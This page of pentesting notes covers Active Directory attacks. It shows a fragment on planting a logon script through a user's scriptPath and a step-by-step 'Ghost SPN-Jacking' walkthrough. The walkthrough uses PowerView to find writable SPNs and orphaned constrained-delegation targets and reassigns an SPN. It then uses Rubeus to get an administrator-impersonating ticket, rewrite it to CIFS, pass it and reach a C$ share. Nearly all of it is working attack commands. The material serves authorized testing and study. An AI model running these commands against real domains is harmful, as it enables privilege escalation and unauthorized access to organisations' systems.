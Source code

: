 #### Modify target's path

```powershell
# Set location of payload
Set-DomainObject eric -Set @{'scriptPath'='EricsScripts\logonScript.bat'}

# Check for update attribute
Get-DomainObject eric -Properties scriptPath
```

### <mark style="color:yellow;">Ghost SPN-Jacking</mark>

First look for `WriteSPN` on bloodhound or using PowerView for `WriteProperty`&#x20;

```powershell
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $(ConvertTo-SID gabriel)}
```

Then check for owned computer if `Constrained Delegation` is enabled.&#x20;

```powershell
Get-DomainComputer -TrustedToAuth | select name, msds-allowedtodelegateto
```

Search for server configured for `Constrained Delegation` including values. Using the `-CheckOrphaned` flag we will find orphaned SPNs.

```powershell
Import-Module C:\Tools\PowerView.ps1
Import-Module C:\Tools\Get-ConstrainedDelegation.ps1
Get-ConstrainedDelegation -CheckOrphaned
```

Assign orphaned SPN to target machine by misaligning the SPNs, no longer point to serverA but to serverB.&#x20;

```powershell
Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='dhcp/DATABASE01'} -Verbose
```

SPN pointing to new server we can now get a service ticket to that server. Use mimikatz or Shadow Credentials to get the hash of serverA.&#x20;

```powershell
.\Rubeus.exe s4u /domain:zencorp.local /user:SRV01$ /rc4:ef3d150ee77eb9000001236c52bd2793 /impersonateuser:administrator /msdsspn:"dhcp/DATABASE01" /nowrap
```

The new ticket obtained wont provide access because the hostname is incorrect. Changing to another service like CIFS would fix this. While the ticket is encrpyted the service name is not so it possible to alter the service name.

```powershell
.\Rubeus.exe tgssub /ticket:<SNIP> /altservice:cifs/WEB01 /nowrap
```

Finally pass the ticket and gain access

```powershell
# Pass the ticket
.\Rubeus.exe ptt /ticket:doIGpjCCBqKgAwIBBaEDAgEWooIFsTCCBa1h<SNIP>

# Access
ls \\web01\c$
```
